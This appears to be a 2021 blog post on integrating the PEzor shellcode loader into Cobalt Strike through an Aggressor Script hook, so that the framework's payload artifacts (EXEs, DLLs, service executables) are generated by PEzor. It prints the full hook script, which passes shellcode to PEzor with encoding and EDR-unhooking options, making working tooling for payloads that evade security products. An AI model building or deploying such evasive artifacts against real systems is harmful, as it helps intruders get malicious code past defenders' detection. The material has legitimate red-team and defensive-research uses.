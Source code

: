 ```yaml
---
layout: default
---
```


_**Feb 17, 2021**_

# Generating Custom Cobalt Strike Artifacts with PEzor

Let's continue our journey with [Cobalt Strike](https://www.cobaltstrike.com/) and [PEzor](https://github.com/phra/PEzor) by integrating it via [Aggressor Scripts' Hooks](https://www.cobaltstrike.com/aggressor-script/hooks.html) in order to produce custom artifacts that will be seamlessly used by the framework when generating payloads on the fly.

![PEzor v2.1.0](../assets/images/pezor-v2.1.0.jpg "PEzor v2.1.0")

## Motivation

When implementing the `execute-inmemory` functionality, described in the [previous post](https://iwantmore.pizza/posts/PEzor2.html), I had to implement a custom [Sleep](http://sleep.dashnine.org/manual/) subroutine to convert the provided executable into a [Reflective DLL](https://github.com/stephenfewer/ReflectiveDLLInjection) or a .NET assembly.
But wouldn't it be nice if we can reuse a similar mechanism in order to build custom artifacts used by built-in and post-exploitation modules?

## Aggressor Scripts' Hooks

The Cobalt Strike framework exposes APIs to developers for integrating custom, external tooling within its payload generation flow.
In particular, we are interested in the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook since we want to customize binary artifacts generated by the framework when executing post-exploitation modules.
By overriding the default internal behaviour, we are able to customize the artifacts in a completely trasparent way so that existing aggressor scripts using the [artifact_payload](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_payload) and [artifact_stager](https://www.cobaltstrike.com/aggressor-script/functions.html#artifact_stager) functions will continue to work as expected while benefiting of functionalities provided by external tooling.

## Source Code

By checking out the source of the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit), we can understand how to override the default behaviour by declaring the [EXECUTABLE_ARTIFACT_GENERATOR](https://www.cobaltstrike.com/aggressor-script/hooks.html#EXECUTABLE_ARTIFACT_GENERATOR) hook.
The framework is invoking the code associated with the hook by passing in two arguments:

- `$1` - the filename of one of the default artifacts' templates to hint about the desired format
    - `artifact32big.dll`
    - `artifact32.dll`
    - `artifact32big.exe`
    - `artifact32.exe`
    - `artifact32svcbig.exe`
    - `artifact32svc.exe`
    - `artifact64big.x64.dll`
    - `artifact64big.exe`
    - `artifact64.exe`
    - `artifact64svcbig.exe`
    - `artifact64svc.exe`
    - `artifact64.x64.dll`
- `$2` - the shellcode to be executed by the generated artifact

Since we are integrating a fully featured shellcode loader that implements all the required output formats of the framework, we can entirely skip using the official [Artifact Kit](https://www.cobaltstrike.com/help-artifact-kit) by using our own templates. (_in this case the ones shipped with PEzor_)

Here's the main source code of the hook:

```perl
include(script_resource("utils.cna"));
include(script_resource("PEzor.cna"));

# Artifact Kit Integration Script

# Windows Executables and DLLs
#
# Arguments
# 	$1 = artifact file (e.g., artifact32.exe)
# 	$2 = shellcode
# Return 
#	our generated artifact
set EXECUTABLE_ARTIFACT_GENERATOR {
	local('$opts $format $payload $resource $tmpfile');

	($resource, $payload) = @_;

	$tmpfile = get_random_temp_filename();
	write_file($tmpfile, $payload);
	$opts = "-sgn -unhook";

	if ($resource eq "artifact32big.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32.dll") {
		$format = "-32 -format=dll";
	} else if ($resource eq "artifact32big.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32.exe") {
		$format = "-32 -format=exe";
	} else if ($resource eq "artifact32svcbig.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact32svc.exe") {
		$format = "-32 -format=service-exe";
	} else if ($resource eq "artifact64big.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64big.x64.dll") {
		$format = "-64 -format=dll";
	} else if ($resource eq "artifact64.exe") {
		$format = "-64 -format=exe";
	} else if ($resource eq "artifact64svcbig.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64svc.exe") {
		$format = "-64 -format=service-exe";
	} else if ($resource eq "artifact64.x64.dll") {
		$format = "-64 -format=dll";
	}

	return read_file(execute_PEzor("$format $opts $tmpfile"));
}
```

As we can see from the source, we are simply mapping the filenames used internally to PEzor command line options in order to generate the artifact in the appropriate output format. 
The complete, updated aggressor scripts can be found in the [/aggressor](https://github.com/phra/PEzor/tree/master/aggressor) folder on the PEzor repository.
